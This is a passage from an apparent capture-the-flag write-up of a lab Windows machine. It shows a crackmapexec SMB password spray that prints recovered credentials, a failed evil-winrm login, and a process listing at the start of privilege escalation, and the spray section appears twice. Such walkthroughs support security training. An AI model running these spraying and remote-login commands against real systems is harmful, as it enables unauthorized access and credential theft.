 With this list of usernames and with a list of passwords, I perform a password spray:

```s
$ crackmapexec smb 10.10.10.149 -u usersnames.txt -p passwords.txt --continue-on-success
...<snip>...
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d
...<snip>...
```

The credentials `Chase:Q4)sJu\Y8qz*A3?d` gives me foothold.

### tcp/5985

Attempting to authenticate using `evil-winrm` using `hazard:stealth1agent` fails

```s
$ evil-winrm -i 10.10.10.149 -u 'hazard' -p 'stealth1agent'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

## Foothold

With a list of usernames and passwords, I perform password spray

```s
$ crackmapexec smb 10.10.10.149 -u usersnames.txt -p passwords.txt --continue-on-success
...<snip>...
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d
...<snip>...
```

The credentials `Chase:Q4)sJu\Y8qz*A3?d` gives me foothold.

## Privilege Escalation

Checking the process information on the machine:

```powershell
get-process
...<snip>...
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    378      28    23416     307864       0.98    788   1 firefox
    401      34    35764      93292       1.91    912   1 firefox
   1083      72   156824     233780       8.34   2608   1 firefox
    347      19    10036      38488       0.06   5236   1 firefox
    356      25    16452      39204       0.08   6328   1 firefox
...<snip>...
```
